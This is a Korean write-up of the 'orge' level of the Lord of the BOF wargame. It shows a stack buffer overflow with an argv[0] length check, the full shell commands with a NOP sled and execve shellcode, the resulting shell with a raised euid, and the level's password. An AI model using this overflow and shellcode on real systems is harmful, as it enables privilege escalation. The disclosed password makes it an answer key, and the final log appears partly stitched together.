# Summary

**이전 문제와 동일한 내용은 생략하고 추가된 내용만 다루었다.**

> 문제의 소스코드

```c
[darkelf@localhost darkelf]$ cat orge.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// here is changed!
	if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

<br>

이전 문제에서 추가된 부분은 파일명에 해당하는 `argv[0]` 길이가 77인지 체크한다.

이 경우 파일명을 77개로 맞춰주면 우회가 가능하다.

아래와 같이 간단히 작성된 파이썬 코드로 조건문을 모두 만족시켜 스택을 `overflow` 시킬 수 있다.

```Python
[darkelf@localhost darkelf]$ ./orge `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"`
argv[0] error

[darkelf@localhost darkelf]$ `python -c "print '.'+'/'*72+'orge'"` `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
```

<br>

<br>

# Analysis & Exploit

#### 아래는 이전 문제와 모두 동일한 내용이기 때문에 요약하여 내용을 정리하였다.

> `tmp`폴더를 생성해 문제의 소스코드를 복사하여 실행 권한을 획득한다.

```python
[darkelf@localhost darkelf]$ mkdir tmp; cp orge.c tmp;
[darkelf@localhost darkelf]$ cd tmp
```

<br>

> 문제의 소스코드에 `argv[2]`주소 값을 확인하는 코드를 아래와 같이 추가해준다.

```Python
[darkelf@localhost tmp]$ vi orge.c
printf("argv[2]: %#x\n",argv[2]); // argv[2] 주소 찾는 코드를 추가

[darkelf@localhost tmp]$ gcc orge.c -o orge
```

<br>

> 파이썬으로 파일명에 해당하는 `argv[0]` 길이를 77개로 작성해 이전 문제와 동일한 exploit 코드를 작성한다.

```python
[darkelf@localhost tmp]$ `python -c "print '.'+'/'*72+'orge'"` `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"` `python -c "print '\x90'*1000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
argv[2]: 0xbffff7d2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault (core dumped)
```

<br>

> 확인된 `argv[2]`에 해당하는 주소 값으로 `ret` 값을 변경하여 exploit 코드를 실행하여 `shell`을 획득할 수 있다.

```Python
[darkelf@localhost tmp]$ cd ..
[darkelf@localhost darkelf]$ `python -c "print '.'+'/'*72+'orge'"` `python -c "print 'A'*44+'\xd2\xf7\xff\xbf'"` `python -c "print '\x90'*1000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
argv[2]: 0xbffff7d2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
bash$ id
uid=506(darkelf) gid=506(darkelf) euid=507(orge) egid=507(orge) groups=506(darkelf)
bash$ my-pass
euid = 507
timewalker
```

### Clear! password is….

timewalker